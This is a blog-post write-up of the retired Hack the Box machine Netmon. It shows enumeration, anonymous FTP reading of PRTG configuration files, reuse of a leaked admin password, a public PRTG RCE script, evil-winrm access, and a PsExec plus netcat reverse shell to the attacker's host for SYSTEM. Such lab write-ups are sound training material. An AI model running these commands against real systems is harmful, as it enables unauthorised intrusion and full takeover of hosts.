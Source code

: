 ```yaml
---
layout: post
title: Hack the Box - Netmon
date: 2020-04-05 17:02:22 +0100
description: Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running,and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.
img: netmon.png
fig-caption: Netmon
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running,and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ sudo nmap -p- -T4  10.129.113.107  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 18:15 GMT
Nmap scan report for 10.129.113.107
Host is up (0.017s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```
From the initial scan the ports that seem of immediate interest are 21 and 80. When attempting to connect to the FTP server, anonymous access is allowed and gives user access to the filesystem.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ ftp 10.129.113.107
Connected to 10.129.113.107.
220 Microsoft FTP Service
Name (10.129.113.107:calxus): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
```
When accessing the web server located on port 80 we find a login page for PRTG Network monitor.
## Foothold
While googling for the location of credentials I found a reddit thread on the subject here: https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/ So with access to the file system via FTP I was able to navigate to the directory "C:\ProgramData\Paessler\PRTG Network Monitor". From here there were three configuration files that I copied down and within "PRTG Configuration.old.bak" I was able to see the password.
```
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```
Frustratingly the password didn't work, but as passwords are often only changed by 1 number I tried with 2019 and was able to get in. Searching exploitdb for RCE exploits I could find a script as shown below.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ searchsploit prtg
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution     | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                    | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service) | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                  | java/webapps/34108.txt
------------------------------------------------------------------------- ---------------------------------
```
Using this a user can be created on the box by grabbing the cookies from the authenticated session to the site
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ ./prtg.sh -u http://10.129.113.107 -c "_ga=GA1.4.1726106620.1615746366; _gid=GA1.4.190225335.1615746366; OCTOPUS1813713946=ezdFQ0RERUNFLTFCQjYtNEI3MC1BMUVDLTI1MzgxMUU1MTM4Q30%3D; _gat=1"
...
 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```
Once that has completed we can connect to the instance using "evil-winrm"
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ evil-winrm -u 'pentest' -p 'P3nT3st!' -i 10.129.113.107

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

PS C:\Users\pentest\Documents> whoami
netmon\pentest
```
## Privilege Escalation
Although we have an administrator user and this is enough to view the flags we can go a step further and gain system. To do this we copy over netcat and PsExec to the box using smb. 
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
```
PS C:\Users\pentest\Documents> copy \\10.10.14.27\kali\PsExec.exe .
PS C:\Users\pentest\Documents> copy \\10.10.14.27\kali\nc.exe .
PS C:\Users\pentest\Documents> PsExec.exe -accepteula
PS C:\Users\pentest\Documents> .\PsExec.exe -i -s C:\Users\pentest\Documents\nc.exe -nv 10.10.14.27 4433 -e cmd.exe
```
After transferring the files and setting up the listener we can run the following command and be greeted with a system shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ nc -nlvp 4433                                                                                                        130 ⨯
listening on [any] 4433 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.107] 50475
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
